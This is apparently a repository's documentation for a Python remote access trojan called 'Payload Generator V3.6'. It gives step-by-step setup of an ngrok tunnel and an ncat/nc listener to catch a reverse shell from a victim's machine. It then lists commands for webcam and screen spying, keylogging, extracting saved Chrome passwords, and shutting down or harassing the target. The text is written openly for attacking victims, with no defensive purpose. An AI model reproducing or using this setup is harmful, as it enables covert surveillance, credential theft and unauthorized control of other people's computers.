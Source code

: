 ### **Documentation for Payload Generator V3.6 by PhantomCode**

#### **Purpose:**
This payload allows you to remotely control a target's machine using a reverse shell, enabling webcam streaming, screen sharing, keylogging, and system actions like locking the screen or shutting down the device. It uses Ngrok to create a tunnel to bypass NAT/firewalls and ncat for the TCP connection.

---

### **Setup Instructions**

#### **Step 1: Set Up Ngrok**
1. Download Ngrok and run the following command to create a tunnel for port **8080**:
   ```bash
   ngrok tcp 8080
   ```
2. Ngrok will provide you with a forwarding URL and a TCP address (something like `tcp://0.tcp.ngrok.io:xxxxx`).
   
3. **Important:** Note the TCP address (replace `xxxxx` with the actual port number given by Ngrok).

#### **Step 2: Run Ncat to Listen**
You need to listen for incoming connections on the same port Ngrok is forwarding. Run the following command:
```bash
ncat -lvnp 8080
```
or
```bash
nc -lvnp 8080
```

#### **Step 3: Execute the Payload**
1. Open the **Payload_generator_V-3.6.py** file and edit the necessary variables:
   - **Attacker IP**: This should be the IP from the Ngrok TCP connection (`0.tcp.ngrok.io`).
   - **Attacker Port**: Use the port given by Ngrok (e.g., `xxxxx`).

2. Once you’ve updated these details, run the Python script:
   ```bash
   python Payload_generator_V-3.6.py
   ```

3. After the reverse shell is established, you can run commands directly through your ncat listener.

---

### **Commands Available in the Payload**

| Command               | Description                                                   |
|-----------------------|---------------------------------------------------------------|
| `webcam`              | Starts the webcam server. Requires running the **Main.py** file for GUI. |
| `screenshot`          | Starts screen sharing. Also requires **Main.py** for the GUI. |
| `lockscreen`          | Locks the target's screen.                                    |
| `popups`              | Annoys the victim with pop-up windows.                        |
| `shutdown`            | Shuts down the target’s device.                               |
| `reboot`              | Reboots the target’s device.                                  |
| `extract_google_logins`| Extracts saved Google Chrome logins (username and password).  |
| `stop_webcam`         | Stops webcam streaming.                                       |
| `stop_screenshot`     | Stops screen sharing.                                         |
| `keylogs`             | Displays logged keystrokes.                                   |
| `start_keylogger`     | Starts the keylogger on the target machine.                   |

---

### **Main.py for GUI (Screenshare & Webcam)**
1. To view the victim’s screen or webcam in real-time, after starting the reverse shell, run the `Main.py` file.
2. It will open a GUI that displays the streaming data (webcam/screen).

---

### **Troubleshooting**
- **Connection Issues**: If Ngrok disconnects or ncat closes, simply reopen the listener with the same command and restart the payload using the **Main.py** file for webcam and screen sharing.
- **Command Errors**: If a custom command doesn’t execute, check the Python script to ensure all necessary modules are installed (`cv2`, `pynput`, etc.).

This setup allows for powerful remote control using Ngrok and ncat, with real-time screen sharing and more.
